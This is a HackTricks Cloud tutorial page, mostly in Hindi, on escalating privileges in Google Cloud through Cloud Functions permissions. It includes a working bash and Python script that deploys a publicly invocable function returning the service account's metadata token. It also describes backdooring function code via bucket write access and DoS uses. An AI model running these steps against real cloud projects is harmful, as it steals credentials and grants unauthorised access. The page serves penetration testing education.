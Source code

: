 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions के बारे में अधिक जानकारी:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **मनमाने (दुष्ट) कोड के साथ एक नया Cloud Function बना सकता है और इसे एक Service Account सौंप सकता है**। फिर, विशेषाधिकारों को बढ़ाने के लिए मेटाडेटा से Service Account टोकन लीक करें।\
फंक्शन को ट्रिगर करने के लिए कुछ विशेषाधिकारों की आवश्यकता हो सकती है।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) और [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) मिल सकती हैं और प्रीबिल्ट .zip फ़ाइल [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) मिल सकती है।

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **एक Function के कोड को संशोधित कर सकता है और यहां तक कि संलग्न सेवा खाते को भी संशोधित कर सकता है** जिसका लक्ष्य टोकन को एक्सफिल्ट्रेट करना है।

{% hint style="danger" %}
Cloud functions को तैनात करने के लिए आपको डिफ़ॉल्ट कंप्यूट सेवा खाते या उस सेवा खाते पर actAs अनुमतियों की भी आवश्यकता होगी जिसका उपयोग छवि बनाने के लिए किया जाता है।
{% endhint %}

कुछ अतिरिक्त विशेषाधिकार जैसे कि संस्करण 1 cloudfunctions के लिए `.call` अनुमति या फंक्शन को ट्रिगर करने के लिए `role/run.invoker` भूमिका की आवश्यकता हो सकती है।
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
यदि आपको त्रुटि `Permission 'run.services.setIamPolicy' denied on resource...` मिलती है, तो इसका कारण यह है कि आप `--allow-unauthenticated` पैरामीटर का उपयोग कर रहे हैं और आपके पास इसके लिए पर्याप्त अनुमतियाँ नहीं हैं।
{% endhint %}

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) मिल सकती है।

### `cloudfunctions.functions.sourceCodeSet`

इस अनुमति के साथ आप एक **साइन किया हुआ URL प्राप्त कर सकते हैं ताकि एक फ़ाइल को एक फ़ंक्शन बकेट में अपलोड किया जा सके (लेकिन फ़ंक्शन का कोड नहीं बदलेगा, आपको इसे अभी भी अपडेट करना होगा)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

हम attackers के दृष्टिकोण से केवल इस अनुमति की उपयोगिता के बारे में निश्चित नहीं हैं, लेकिन जानना अच्छा है।

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

अपने लिए किसी भी पिछले **`.update`** या **`.create`** विशेषाधिकार को बढ़ाने के लिए दें।

### `cloudfunctions.functions.update`

केवल **`cloudfunctions`** अनुमतियों के साथ, बिना **`iam.serviceAccounts.actAs`** के आप **फंक्शन को अपडेट नहीं कर पाएंगे, इसलिए यह एक मान्य प्रिवेस्क नहीं है।**

### बकेट पर पढ़ने और लिखने की पहुंच

यदि आपके पास बकेट पर पढ़ने और लिखने की पहुंच है, तो आप कोड में परिवर्तनों की निगरानी कर सकते हैं और जब भी **बकेट में अपडेट होता है, आप अपने कोड के साथ नए कोड को अपडेट कर सकते हैं** ताकि क्लाउड फंक्शन का नया संस्करण प्रस्तुत किए गए बैकडोर कोड के साथ चल सके।

आप हमले के बारे में अधिक जानकारी देख सकते हैं:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

हालांकि, आप इसका उपयोग तीसरे पक्ष के क्लाउड फंक्शंस को पूर्व-समझौता करने के लिए नहीं कर सकते क्योंकि यदि आप अपने खाते में बकेट बनाते हैं और इसे सार्वजनिक अनुमतियाँ देते हैं ताकि बाहरी प्रोजेक्ट उस पर लिख सके, तो आपको निम्नलिखित त्रुटि मिलती है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
हालांकि, इसका उपयोग DoS हमलों के लिए किया जा सकता है।
{% endhint %}

### आर्टिफैक्ट रजिस्ट्री पर पढ़ने और लिखने की पहुंच

जब एक क्लाउड फंक्शन बनाया जाता है, तो प्रोजेक्ट के आर्टिफैक्ट रजिस्ट्री में एक नया डॉकर इमेज पुश किया जाता है। मैंने इमेज को एक नए के साथ संशोधित करने की कोशिश की, और यहां तक कि वर्तमान इमेज (और `cache` इमेज) को भी हटाने की कोशिश की और कुछ भी नहीं बदला, क्लाउड फंक्शन काम करता रहा। इसलिए, शायद यह **बकेट के साथ रेस कंडीशन हमले का दुरुपयोग करना संभव हो सकता है** ताकि डॉकर कंटेनर को बदला जा सके जो चलाया जाएगा लेकिन **संग्रहित इमेज को केवल संशोधित करना क्लाउड फंक्शन को समझौता करने के लिए संभव नहीं है।**

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
